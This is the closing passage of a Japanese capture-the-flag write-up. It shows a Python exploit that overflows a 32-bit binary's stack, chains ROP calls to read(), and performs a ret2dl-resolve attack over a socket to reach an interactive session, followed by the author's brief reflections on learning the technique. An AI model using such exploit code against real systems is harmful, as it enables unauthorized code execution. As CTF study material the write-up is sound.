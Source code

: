 ```python
def craft_read(addr, size):
    payload = p32(elf.plt['read']) ## read(stdin, addr, size)
    payload += p32(rop_pop3)
    payload += p32(0)    # fd
    payload += p32(addr) # buf
    payload += p32(size) # size
    return payload

""" Stage 1 """
payload1 = "A" * 0x4c
payload1 += craft_read(base_stage, 0x80)
payload1 += craft_read(addr_reloc, 0x8)
payload1 += craft_read(addr_sym, 0x10)
payload1 += craft_read(addr_str, len(fname))
payload1 += craft_read(addr_arg, len(farg))
payload1 += p32(rop_pop_ebp) ## esp = base_stage
payload1 += p32(base_stage)
payload1 += p32(rop_leave)
payload1 += "A" * (0x100 - len(payload1))

""" Stage 2 """
reloc_offset = addr_reloc - addr_relplt
payload2 = "AAAA"
payload2 += p32(addr_plt)
payload2 += p32(reloc_offset) # orig: push 0x0
payload2 += "XXXX"
payload2 += p32(addr_arg)
payload2 += "A" * (0x80 - len(payload2))

sock.send(payload1)
sock.send(payload2)
sock.send(reloc)
sock.send(sym)
sock.send(fname)
sock.send(farg)
sock.interactive()
```

# 感想
問題自体はかなり易しいです。
当時の私は恥ずかしいことにlibc databaseを知らなかったので解けませんでした。
まぁ解けなかったおかげで堀り下げて勉強してret2dl-resolveも知れたので良かったかな。

